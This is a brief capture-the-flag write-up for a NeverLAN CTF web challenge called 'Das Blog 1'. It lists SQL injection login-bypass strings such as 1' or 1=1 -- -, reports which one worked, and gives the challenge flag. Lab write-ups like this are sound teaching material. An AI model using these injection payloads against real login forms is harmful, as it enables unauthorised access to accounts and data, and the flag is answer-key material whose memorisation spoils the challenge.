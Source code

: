 [Das Blog 1]
---
Question:
---
	Word on the street, Johnny's got a blog. Seems he doesn't know how to escape his inputs.
	https://challenges.neverlanctf.com:1125

Answer
---
	1. The task pretty much gives away that it's an escape character sql injection we need.
	2. Tried several escape methods like:

	' or ' 1=1
	' or '1'='1
	1' or 1=1 -- -

	3. 1' or 1=1 -- - ended up working

![alt text](https://i.imgur.com/CnKkYvX.png)

![alt text](https://i.imgur.com/ekTcAX8.png)

![alt text](https://i.imgur.com/P9uOsh8.png)


Flag:
---
	flag{3sc4pe_Y0ur_1npu7s}
